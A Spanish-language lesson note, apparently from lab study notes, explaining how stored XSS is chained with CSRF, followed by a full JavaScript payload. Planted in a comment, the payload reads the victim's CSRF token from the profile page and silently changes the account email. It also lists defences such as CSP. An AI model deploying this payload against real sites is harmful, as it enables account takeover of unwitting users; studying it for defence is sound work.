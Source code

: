 Esta lección continúa el ataque iniciado previamente, donde explotamos una vulnerabilidad de XSS almacenado para comprometer la protección CSRF de la aplicación.

En este caso, consolidamos la explotación automatizando todo el flujo: cuando una víctima visualiza el comentario malicioso, su navegador realiza una petición a su propia página de perfil, extrae el token CSRF del formulario oculto, y lo reutiliza inmediatamente para enviar una petición de cambio de correo electrónico sin que el usuario lo sepa.

Este enfoque permite realizar una acción sensible —como modificar información de cuenta— sin interacción directa por parte de la víctima, utilizando su sesión activa y su token legítimo.

La clase demuestra cómo XSS y CSRF pueden combinarse para romper la lógica de seguridad de muchas aplicaciones, y por qué es crucial implementar defensas adicionales como el uso de encabezados personalizados, políticas de contenido restrictivas (CSP), y el aislamiento del contenido generado por el usuario del contexto de ejecución del frontend.

Solucion seguimos con el codigo
![[Pasted image 20250717181112.png]]
<script>
  var req = new XMLHttpRequest(); 
  req.open("GET", "/my-account", false); 
  req.send();
  var response = req.responseText;
  var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];
  var req2 = new XMLHttpRequest();
  req2.open('POST', '/my-account/change-email', true);
  req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token); 
  req2.send(data);
</script>

y lo ideal seria ponerlo en la seccion de comentarios
![[Pasted image 20250717181635.png]]
